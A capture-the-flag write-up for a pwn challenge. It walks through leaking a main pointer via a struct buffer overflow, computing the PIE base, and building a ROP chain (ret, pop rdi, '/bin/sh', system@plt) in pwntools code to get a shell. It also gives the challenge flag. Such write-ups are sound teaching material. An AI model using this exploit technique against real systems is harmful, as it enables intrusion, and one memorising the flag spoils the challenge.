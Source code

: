 # challenge details
category: pwn

author: whywhy

points: i dont remember

solves: 15
# description
Every pwner has had to gain their bearings at least once. Can you gain yours?
# sol
firstly, i check the protections of the file. 
```bash
pwndbg> checksec
File:     /home/syntax/Downloads/bearings check/bearings_check/chal
Arch:     amd64
RELRO:      Full RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        PIE enabled
Stripped:   No
```
so that means i'll have to leak the addresses if i want my solvescript to work on remote.

looking at the source code, i realise that the struct
```c
struct proving_ground {
    char name[32];
    void* main_ref;
    char pad[8];
    char vuln[32];
};
```

is arranged in a way such that main ref comes right after name. which means in theory that if i overflow the 32 byte buffer in name, i should theoretically be able to leak main_ref. and lo and behold, when i send in 32 bytes or more, some garbled characters pop up, which i know should be my leaked address. i'll then use `context.log_level = 'debug'` in order to get my address.

so that's the main_ref settled, and now i can get all of the other addresses by using main_ref. the addresses that i'll need are the pie base, the `gifts()` function addess, system@plt address, the pop rdi; ret gadget, and just in case, a ret gadget address. so how do i leak these? 

to calculate the pie base, i just use `main_ref - elf.symbols['main']` in order to get it. it should end in 000 or else it's wrong. everything else should be smooth sailing from here. 

the elf file in this case is the local binary. 

i use `pie_base + elf.symbols['gifts']` to calculate my `gifts()` address, `pie_base + elf.plt['system']` to get my system address, `elf.search(b"/bin/sh\x00")` to find my bin/sh offset before using `pie_base + next(binsh_offset)` to get the address of bin/sh. 

the pop rdi gadget is a little more complicated to find, i used
```python
rop = ROP(elf)
pop_rdi_ret = rop.find_gadget(['pop rdi', 'ret'])[0]
pop_rdi_ret_addr = pie_base + pop_rdi_ret
```
to get it, and i used
```python
ret_gadget = rop.find_gadget(['ret'])[0]
ret_addr = pie_base + ret_gadget
```
to get the ret gadget address. 

okay great, once i've gotten all of my addresses, i can craft my payload.
```python
payload = b'A' * 32
payload += p64(ret_addr)
payload += p64(ret_addr)
payload += p64(pop_rdi_ret_addr)      # gadget address to control rdi
payload += p64(binsh_addr)       # address of "/bin/sh" string
payload += p64(system_plt)   # address of system@plt
```
the payload is arranged in the order such that it fills the buffer first, then alignts the stack using the ret gadgets, before controlling the rdi register using the pop rdi gadget, then sending in the bin/sh string which will be placed into the rdi register by the gadget, then the address of system@plt which will execute `system("bin/sh")`.

and boom after sending all that, you will get your flag, which is `sctf{N0W_1_C4N_T3LL_T0P_FR0M_B0TT0M}`!
